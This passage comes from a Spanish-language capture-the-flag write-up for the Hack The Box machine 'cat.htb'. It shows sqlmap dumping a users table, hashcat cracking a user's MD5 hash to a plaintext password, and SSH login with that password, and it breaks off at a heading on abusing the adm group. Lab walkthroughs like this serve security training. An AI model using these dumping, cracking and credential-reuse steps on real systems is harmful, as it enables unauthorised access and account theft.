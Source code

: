 ```bash
[02:59:56] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cat.htb/dump/SQLite_masterdb/users.csv'
[02:59:56] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1666 times
[02:59:56] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'
```

### Cracking hashes

Después de un tiempo intentando crackear estos hashes obtenidos, verificamos que logramos obtener la contraseña en texto plano del hash del usuario `rosa`.

```bash
❯ hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU


ac369922d560f17d6eeb8b2c7dec498c:soyunaprincesarosa
```

### Access via SSH with newly cracked password

Trataremos de acceder al `SSH`con este usuario para verificar si podemos acceder al equipo. Comprobamos que  hemos podido acceder al equipo sin problemas.

```bash
❯ ssh rosa@cat.htb
The authenticity of host 'cat.htb (10.10.11.53)' can't be established.
ED25519 key fingerprint is SHA256:tsmOV3JuQkCv6HNUqg9YQ+DJznLS2nYKJl4zIwKtbE4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:22: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cat.htb' (ED25519) to the list of known hosts.
rosa@cat.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)


Last login: Sat Sep 28 15:44:52 2024 from 192.168.1.64
rosa@cat:~$
```

## Initial Access

### Abusing adm group to see disclosure of sensitive data in logs
